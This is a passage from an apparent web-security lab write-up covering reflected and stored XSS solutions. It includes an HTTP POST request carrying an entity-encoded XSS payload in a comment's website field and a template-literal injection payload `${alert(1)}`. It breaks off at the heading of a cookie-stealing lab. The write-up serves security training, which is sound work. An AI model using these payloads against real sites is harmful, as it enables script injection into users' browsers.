 We see single quote and backslash characters are indeed escaped and angle brackets and double quotes are HTML-encoded:

<img width="448" height="402" alt="image" src="https://github.com/user-attachments/assets/f4d95a21-5244-4d2f-909f-7e9faf049962" />


We will use “'” next:

`http://test4.com&apos;);alert(1);//`

```
POST /post/comment HTTP/2
...
csrf=e8yz3UQ62qX7CBfs9PFEanjwdYjzbaMz&postId=1&comment=test1&name=test2&email=test3%40test.com&website=http%3A%2F%2Ftest4.com%26apos;);alert(1)%3b//

```

When clicking the username an alert pops:

<img width="823" height="378" alt="image" src="https://github.com/user-attachments/assets/e4dfd703-cc79-44fc-8a42-7b123743b5ee" />

---


### LAB 21 - Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

### Lab Description

![image](https://github.com/user-attachments/assets/1f140f4b-d1ba-4296-84c5-bdf0bda87c69)

### Solution

<img width="911" height="593" alt="image" src="https://github.com/user-attachments/assets/26e0635f-bf44-4f48-b046-dff37309fbc5" />

The content of the search is reflected inside the variable “message”, a template literal:

<img width="480" height="85" alt="image" src="https://github.com/user-attachments/assets/51795be0-afe1-400a-9a6f-6056c5f62794" />

We can execute this payload inside the template literal:

```
${alert(1)}
```

<img width="639" height="246" alt="image" src="https://github.com/user-attachments/assets/cd170563-40ff-4937-9312-52f4c618b1cf" />

---

### LAB 22 - Exploiting cross-site scripting to steal cookies

### Lab Description
